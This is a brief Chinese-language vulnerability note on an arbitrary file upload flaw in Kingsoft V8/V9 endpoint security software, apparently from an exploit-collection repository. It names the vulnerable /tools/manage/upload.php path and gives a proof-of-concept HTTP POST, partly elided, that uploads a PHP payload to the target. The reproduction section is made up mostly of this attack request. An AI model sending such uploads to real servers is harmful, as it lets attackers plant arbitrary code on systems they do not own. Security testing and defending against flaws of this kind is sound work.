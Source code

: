 # 金山 V8 V9 终端安全系统 文件上传漏洞

## 漏洞描述

参考链接：

- https://forum.butian.net/share/76

## 漏洞复现

在tools目录下的mange下存在一个upload.php。该文件可导致任意文件上传。

poc：

```
POST /tools/manage/upload.php HTTP/1.1
HOST: target
...
<?php phpinfo(); ?>
```

